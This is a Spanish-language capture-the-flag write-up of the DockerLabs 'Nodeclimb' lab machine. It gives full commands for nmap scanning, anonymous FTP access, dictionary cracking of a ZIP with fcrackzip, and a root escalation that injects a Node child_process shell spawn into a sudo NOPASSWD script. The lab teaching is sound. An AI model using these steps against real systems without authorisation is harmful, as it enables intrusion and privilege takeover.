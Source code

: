 # Nodeclimb (DockerLabs) - WriteUp

**Sitio:** DockerLabs  
**Dificultad:** Fácil  
**Fecha:** 12/07/2025  

## Aprendizajes  

* Uso de `fcrackzip` para crackeo de ZIP protegido.  
* Comprensión de escalada de privilegios cuando `sudo -l` muestra `(ALL) NOPASSWD` apuntando a un binario con un archivo específico, adaptando el payload según corresponda para evitar errores y lograr la escalada correctamente.

---

## Enumeración  

**1)** Escaneo inicial:  

`sudo nmap -sSV -O --open 172.17.0.2`  

Puertos abiertos:  

PORT   STATE SERVICE VERSION  
`21/tcp open  ftp`     vsftpd 3.0.3  
`22/tcp open  ssh`     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)  
OS: `Linux`  


---

## Acceso FTP  

**2)** Conexión FTP con credenciales anónimas:  

`ftp 172.17.0.2`  

user: `anonymous`  
pass: `anonymous`  

Se descarga un archivo `secretitopicaron.zip` que pide contraseña al intentar descomprimirlo.  

---

## Cracking del ZIP con fcrackzip  

**3)** Se utiliza fuerza bruta:  

`fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u secretitopicaron.zip`  

**Explicación de flags:**  

* `-D`: Ataque de diccionario.  
* `-p`: Ruta al diccionario.  
* `-u`: Intenta descomprimir con cada password para mostrar salida sólo si es exitosa.  

> **Contraseña encontrada:** `password1`  

Se descomprime el ZIP y se obtienen credenciales:  

user: `mario`  
pass: `laKontraseñAmasmalotaHdelbarrioH`  

---

## Acceso por SSH y enumeración de privilegios  

**4)** Conexión SSH:  

`ssh mario@172.17.0.2`  

Listar privilegios con:  

`sudo -l`  

Salida:  

`(ALL) NOPASSWD: /usr/bin/node /home/mario/script.js`  

Verificamos permisos del archivo:  

`ls -la /home/mario/script.js`  

`-rw-r--r-- 1 mario mario 0 Jul  5  2024 /home/mario/script.js`  

---

## Escalada de privilegios con Node  

En **GTFOBins** figura el siguiente comando para escalada con Node:  

`sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'`  

**Importante:**  

* Si `sudo -l` mostrara `sudo /usr/bin/node`, se podría ejecutar el comando entero.  
* Al mostrar `sudo /usr/bin/node /home/mario/script.js`, indica que el binario apunta a ese .js, por lo que se debe modificar el script directamente para inyectar el payload. 

**Procedimiento:**   

`nano /home/mario/script.js`  

Pegar dentro:  

`require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})`  

Guardar y cerrar.  

Ejecutar con escalada:  

`sudo /usr/bin/node /home/mario/script.js`  

Confirmar con:  

`whoami = root`  

---

## Conclusión

* Se logró escalar privilegios a **root** mediante la modificación del archivo `script.js` ejecutado con `node` bajo `NOPASSWD`, adaptando el procedimiento según el tipo de salida de `sudo -l`.
* Se practicó crackeo de ZIP protegido con `fcrackzip`, acceso básico por FTP anónimo, enumeración con `nmap` y se reforzó la interpretación de configuraciones de `sudo` en contextos reales de pentesting.



